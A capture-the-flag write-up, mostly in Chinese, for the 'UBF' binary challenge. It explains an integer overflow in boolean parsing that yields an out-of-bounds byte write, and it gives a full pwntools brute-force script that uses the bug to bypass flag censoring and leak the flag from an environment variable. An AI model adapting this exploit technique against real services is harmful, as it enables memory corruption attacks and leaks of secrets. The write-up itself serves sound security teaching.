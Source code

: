 # UBF

> 	这题的漏洞是解析 bool 时的整数溢出导致越界写，难点主要在于理解逆向题目逻辑和结构体上。

Please review and test this Unnecessary Binary Format (UBF)!

## Analysis

程序运行后会先读取 `/flag` 等文件的内容并调用 `setenv` 函数将其设置为环境变量，进一步调试发现环境变量的值是可以直接解析并输出的。但是在 `strs_tostr` 中还有一个函数对解析的字符串进行检查，会将 `CTF{` 后的内容替换为 X：

```c
void *__fastcall censor_string(unsigned __int8 *a1, int a2)
{
  void *result; // rax

  if ( a2 > 5 )
  {
    result = (void *)*a1;
    if ( (_BYTE)result == 'C' )
    {
      result = (void *)a1[1];
      if ( (_BYTE)result == 'T' )
      {
        result = (void *)a1[2];
        if ( (_BYTE)result == 'F' )
        {
          result = (void *)a1[3];
          if ( (_BYTE)result == '{' )
            return memset(a1 + 4, 'X', a2 - 5);
        }
      }
    }
  }
  return result;
}
```

继续逆向发现 `fix_corrupt_booleans` 中的整数溢出漏洞：

```c
unsigned __int64 __fastcall fix_corrupt_booleans(new_data *a1)
{
  unsigned __int64 result; // rax
  char *v2; // [rsp+10h] [rbp-18h]
  char *v3; // [rsp+18h] [rbp-10h]
  int i; // [rsp+24h] [rbp-4h]

  v3 = &a1->ptr_to_data[a1->offset];
  v2 = &a1->ptr_to_data[a1->size];
  for ( i = 0; ; ++i )
  {
    result = (unsigned int)a1->len;
    if ( i >= (int)result )
      break;
    result = (unsigned __int64)&v3[i];
    if ( result >= (unsigned __int64)v2 )
      break;
    v3[i] = v3[i] != 0;
  }
  return result;
}
```

若 `offset` 为负数，则可以使 `v3` 指向当前堆块之前的地址并修改上面的一字节为 1，这个漏洞并不能直接导致 getshell，但是可以借助它绕过 `censor_string` 中的检测。

---

## Exploitation

在调试比较麻烦的时候，可以直接尝试爆破：

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-
#  author: @eastXueLian

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

LOCAL = 1
filename = "./ubf"
if LOCAL:
    # io = process(filename)
    pass
else:
    remote_service = ""
    remote_service = remote_service.strip().split(":")
    io = remote(remote_service[0], int(remote_service[1]))
elf = ELF(filename, checksec=False)
libc = ELF(elf.libc.path, checksec=False)


rl = lambda a=False : io.recvline(a)
ru = lambda a,b=True : io.recvuntil(a,b)
rn = lambda x : io.recvn(x)
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sa = lambda a,b : io.sendafter(a,b)
sla = lambda a,b : io.sendlineafter(a,b)
ia = lambda : io.interactive()
dbg = lambda text=None : gdb.attach(io, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
i2b = lambda c : str(c).encode()
u32_ex = lambda data : u32(data.ljust(4, b'\x00'))
u64_ex = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
    if LOCAL:
        lg("io.pid")
        input()
    pass

def generate_payload(size, choice, x1, x2, data):
    payload  = p32(size)
    payload += choice
    payload += p16(x1)
    payload += p16(x2)
    payload += data
    return payload

for i in range(0x10, 0x10000):
    try:
        io = process(filename)
        payload = generate_payload(5, b's', 1, 2, p16(5) + b"$FLAG")
        payload+= generate_payload(0x100, b'b', 1, 0x10000 - (i), b"\x01")
        ru(b'Enter UBF data base64 encoded:\n')
        sl(base64.b64encode(payload))
        lg("i")
        res = io.recv()
        assert b"flag" in res
        print(res)
        input()
    except Exception as e:
        io.close()
```

---
